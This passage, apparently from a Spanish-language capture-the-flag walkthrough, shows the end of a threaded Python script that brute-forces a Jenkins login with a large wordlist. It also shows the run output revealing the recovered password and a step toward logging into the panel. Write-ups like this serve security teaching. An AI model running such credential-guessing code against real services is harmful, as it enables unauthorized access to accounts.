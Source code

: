 ```python
    for password in f.readlines():

        if found_pass:
            break

        password = password.decode().replace("\n", "")
        l1.status("Probando Con la contraseña %s" % password)
        l2.status("Contraseñas Probadas [{}/{}]".format(count, length))
        count += 1
        
        thread = threading.Thread(target=makeBruteForce, args=(password, ))
        threads.append(thread)

        if count % 60 == 0 or count == length:
            for thread in threads:
                try:
                    thread.start()
                except KeyboardInterrupt:
                    print("\n[!] Termimando hilos")
                           
            for thread in threads:
                try:
                    thread.join()
                except KeyboardInterrupt:
                    print("\n[!] Termimando hilos")
                
            threads = []

    for thread in threads:
        thread.join()

if __name__ == "__main__":
        makeRequest()
```
Lo ejecutamos y obtenemos la contraseña.
```bash
❯ python3 jenkis_BruteForce.py
[+] Password: password found spongebob 
[└] Counter: Contraseñas Probadas [119/14344393]
```
Autentiquemosnos en el panel de inicio de session.